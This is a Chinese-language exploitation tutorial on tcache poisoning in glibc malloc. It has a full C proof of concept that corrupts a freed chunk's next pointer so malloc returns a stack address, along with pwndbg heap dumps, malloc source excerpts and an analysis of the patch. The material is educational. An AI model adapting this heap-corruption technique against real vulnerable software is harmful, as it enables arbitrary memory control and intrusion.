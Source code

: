 # 简介
之前我们说过tcache_poisoning这种攻击方式：

[PWN入门（3-16-1）-Tcache Attack中的Tcache Poisoning（基础）](https://www.yuque.com/cyberangel/rg9gdm/dpcqb8)

这里再来简单的说一下，我们通过堆溢出或UAF修改tcachebin中的free chunk的next指针进而malloc申请控制任意内存的地址。当然tcache_poisoning和fastbin中修改fd指针的效果是一样的，但是所需要绕过的检查是不相同的，这里我们之后再说。

# 漏洞影响版本
所有启用tcachebin机制的glibc malloc

# POC
## POC-glibc-2.27、glibc-2.29
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
	// disable buffering
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	printf("This file demonstrates a simple tcache poisoning attack by tricking malloc into\n"
		   "returning a pointer to an arbitrary location (in this case, the stack).\n"
		   "The attack is very similar to fastbin corruption attack.\n");
	printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
		   "We have to create and free one more chunk for padding before fd pointer hijacking.\n\n");

	size_t stack_var;
	printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

	printf("Allocating 2 buffers.\n");
	intptr_t *a = malloc(128);
	printf("malloc(128): %p\n", a);
	intptr_t *b = malloc(128);
	printf("malloc(128): %p\n", b);

	printf("Freeing the buffers...\n");
	free(a);
	free(b);

	printf("Now the tcache list has [ %p -> %p ].\n", b, a);
	printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
		   "to point to the location to control (%p).\n", sizeof(intptr_t), b, &stack_var);
	b[0] = (intptr_t)&stack_var;
	printf("Now the tcache list has [ %p -> %p ].\n", b, &stack_var);

	printf("1st malloc(128): %p\n", malloc(128));
	printf("Now the tcache list has [ %p ].\n", &stack_var);

	intptr_t *c = malloc(128);
	printf("2nd malloc(128): %p\n", c);
	printf("We got the control\n");

	assert((long)&stack_var == (long)c);
	return 0;
}
```

编译之后我们来大致调试来看一下，我们对代码第27行下断点然后启动：

```c
pwndbg> x/120gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
......
0x555555757250:	0x0000000000000000	0x0000000000000091 #a(malloc)
......
0x5555557572e0:	0x0000000000000000	0x0000000000000091 #b(malloc)
......
0x555555757370:	0x0000000000000000	0x0000000000020c91 #top_chunk
......
0x5555557573b0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

然后释放a、b这两个堆块：

```c
pwndbg> x/120gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
......
0x555555757250:	0x0000000000000000	0x0000000000000091 #a(free)
0x555555757260:	0x0000000000000000	0x0000555555757010
......
0x5555557572e0:	0x0000000000000000	0x0000000000000091 #b(free)
0x5555557572f0:	0x0000555555757260	0x0000555555757010
......
0x555555757370:	0x0000000000000000	0x0000000000020c91 #top_chunk
0x5555557573b0:	0x0000000000000000	0x0000000000000000
pwndbg> tcachebin
tcachebins
0x90 [  2]: 0x5555557572f0 —▸ 0x555555757260 ◂— 0x0
pwndbg> 
```

然后我们修改b堆块的next指针b[0] = (intptr_t)&stack_var：

```c
pwndbg> tcachebin
tcachebins
0x90 [  2]: 0x5555557572f0 —▸ 0x7fffffffdd88 ◂— 0x0
pwndbg> 
```

当我们再次申请两个堆块时即可控制任意内存：

```c
	printf("1st malloc(128): %p\n", malloc(128));
	printf("Now the tcache list has [ %p ].\n", &stack_var);

	intptr_t *c = malloc(128);
```

# ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1619483439110-21dedbbf-dd96-4f47-8b48-826ec813d21b.png)
## malloc源码说明
之前说过我们可以通过堆溢出或UAF来修改next指针，因此问题主要出在malloc申请时安全性检查不严格：

```c
----------------------------------------------------------------------------
#if USE_TCACHE
  /* int_free also calls request2size, be careful to not pad twice.  */
  size_t tbytes;
  checked_request2size (bytes, tbytes); //获取对齐后的大小tbytes
  size_t tc_idx = csize2tidx (tbytes);  //获取tc_idx索引

  MAYBE_INIT_TCACHE (); //初始化tcache

  DIAG_PUSH_NEEDS_COMMENT;
  if (tc_idx < mp_.tcache_bins  //判断待释放的堆块是否可以放入tcachebin中
      /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
      && tcache //判断tcache是否初始化
      && tcache->entries[tc_idx] != NULL) //对应的tcachebin链表不为空
    {
      return tcache_get (tc_idx); //从tcache中申请chunk
    }
  DIAG_POP_NEEDS_COMMENT;
#endif
----------------------------------------------------------------------------
/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];  //获取对应链表的entries（e指向free chunk）
  assert (tc_idx < TCACHE_MAX_BINS); //tc_idx一定小于TCACHE_MAX_BINS
  assert (tcache->entries[tc_idx] > 0); //最后插入此tcachebin的free chunk地址一定大于0
  tcache->entries[tc_idx] = e->next; //解链最后进入的free chunk
  --(tcache->counts[tc_idx]); //counts--
  e->key = NULL; //设置解链后free chunk的key指针
  return (void *) e;
}
```

从上面的源码看到，在向tcachebin申请堆块时几乎没有安全性检查，它连链入tcachebin的free chunk大小的检查都没有，以下是fastbin的在申请时对大小的检查：

```c
	  if (__glibc_likely (victim != NULL))
	    {
	      size_t victim_idx = fastbin_index (chunksize (victim));
	      if (__builtin_expect (victim_idx != idx, 0)) //大小检查
		malloc_printerr ("malloc(): memory corruption (fast)");
```

# 漏洞修补方式
漏洞修补方式可以在POC的注释中可以找到：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1619485924588-212d856f-a1ba-4b28-930f-eea147a4ae72.png)

```c
-  assert (tcache->entries[tc_idx] > 0);
+  assert (tcache->counts[tc_idx] > 0);
```

在diff中可以看到将原有的assert的内容替换为对tcache->counts[tc_idx]>0的检查，因为在解链之前tcache->counts[tc_idx]总是大于0的；然而这种修补方式只能控制我们在篡改next指针后申请堆块的次数，并不能控制根本的控制此漏洞的利用方式。

总结一下，虽然控制了malloc的次数，但是没有从根本上修补tcache_poisoning这种攻击方式。

